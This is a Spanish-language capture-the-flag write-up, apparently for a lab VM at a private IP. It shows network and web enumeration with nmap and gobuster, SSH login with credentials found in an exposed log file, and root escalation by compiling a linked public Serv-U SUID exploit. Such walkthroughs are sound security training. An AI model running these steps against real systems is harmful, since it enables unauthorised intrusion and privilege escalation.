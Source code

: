 ## Summary

Tags: #Linux #SSH #HTTP #SUID 

- IP -> 192.168.68.115 (VmWare)
- Ports -> TCP (80,22), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.6p1 
    - 80 -> Apache httpd 2.4.29

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)
* Ubuntu Bionic
## Recon

```bash
❯ arp-scan -I ens33 --localnet --ignoredups       # Para hacer un escaneo de la red local, no puedes encontrar mas usuarios despues del router que no pertenecen a tu red

	# Escaneamos la Capa 3 del modelo OSI con el protocolo ARP el cual lo hacer por medio de Broadcast en un segmento de la red, y provee el MAC Address
	# I = i mayuscula; es la interface ens33
	# ignoredups = Ignora IPs duplicadas
	 
	# apt install arp-scan  = Instalar ARP-Scan
```

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)

	# IP = IP Address de la maquina target 
	# c = Numero de pings a ejecutar
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted

	#  p22,... = Indica los puertos que se quieren escanear
	#  sC = Lanza scripts básicos de enumeración
	#  sV = Enumera la versión y servicio que está corriendo en los puertos
	#  Target IP = Dirección IP que se quiere escanear
	#  oN targeted = Exporta el output a un fichero en formato nmap con nombre “targeted”
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Este script se usa cuando solo esta el puerto 80 open en una maquina. 
```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```
Nos muestra que hay directorios como: **'robots.txt / phpinfo.php / phpmyadmin'**

* Ahora vemos la web con los dir encontrados 
	* En robots.txt encontramos: **admin, wordpress, user, election**

```bash 
❯ gobuster dir -u http://192.168.68.115/election -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200

	# dir -> Modo enumeracion directorios y archivos 
	# u -> Colocamos la url
	# t -> Lanzar peticiones en paralelo al mismo tiempo
	# w -> Ruta del diccionario

# Encontramos un dir llamado 'admin'

❯ gobuster dir -u http://192.168.68.115/election/admin -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
# Encontramos un dir llamado 'logs' el cual contiene un archivo llamado 'system.log' que contiene un usuario y su passwd. 
```

## User

Entramos por SSH y dentro de la maquina obtenemos la flag del usuario love
```bash
❯ ssh ❮User❯@❮IP❯                                  # Para conectarnos por ssh en el puerto default 22
```
## Root

Para escalar privilegios hacemos lo siguiente:

```bash 
❯ lsb_release -a          # Validamos el ubuntu 
❯ id                      # Miramos si estamos en algun grupo especial 
❯ sudo -l                 # Miramos si tenemos algun privilegio
```

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 

	# Encontramos: Serv-U  --> Servidor FTP 
```

Buscamos en Google 'serv-u exploit' y  nos copiamos el exploit y lo pegarnos en un archivo que crearemos en el dir 'tmp' con nvim llamado 'exploit.c'
* [Exploit-Serv-U](https://www.exploit-db.com/exploits/47009)

```bash 
❯ nvim exploit.c             # Copiamos el contenido obtenido de la pagina web
```

```bash 
❯ which gcc                  # Para saber si la maquina victima tiene instalado el gcc
```

```bash 
❯ gcc exploit.c -o exploit      # Compilamos el exploit de la siguiente manera  
❯ ./exploit                     # Ejecutamos el exploit y ahora somos Root
```
